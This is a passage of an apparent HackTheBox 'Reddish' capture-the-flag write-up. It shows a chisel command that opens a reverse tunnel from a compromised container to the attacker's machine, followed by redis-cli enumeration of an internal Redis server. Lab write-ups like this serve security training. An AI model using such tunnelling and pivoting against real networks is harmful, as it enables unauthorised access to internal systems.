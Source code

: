 ![source code](/img/htb/reddish/source_container_1.png)

Proceeding to enumerate the redis server of 172.19.0.3.

Forward the port through chisel to the attacker machine.

```bash
root@nodered:/tmp/workspace_nodered_container## ./chisel client 10.10.14.26:1234 R:81:172.19.0.2:80 R:6379:172.19.0.3:6379
```

Access to redis using redis-cli.

```bash
$ redis-cli -h 127.0.0.1
127.0.0.1:6379> 
```
Further enumeration of the database show that 172.19.0.3 is storing the number of hits of the website in 172.19.0.2
```bash
127.0.0.1:6379> info keyspace
## Keyspace
db0:keys=1,expires=0,avg_ttl=0
127.0.0.1:6379[1]> select 0
OK
127.0.0.1:6379> keys *
1) "hits"
127.0.0.1:6379> get hits
"2"
127.0.0.1:6379>
```
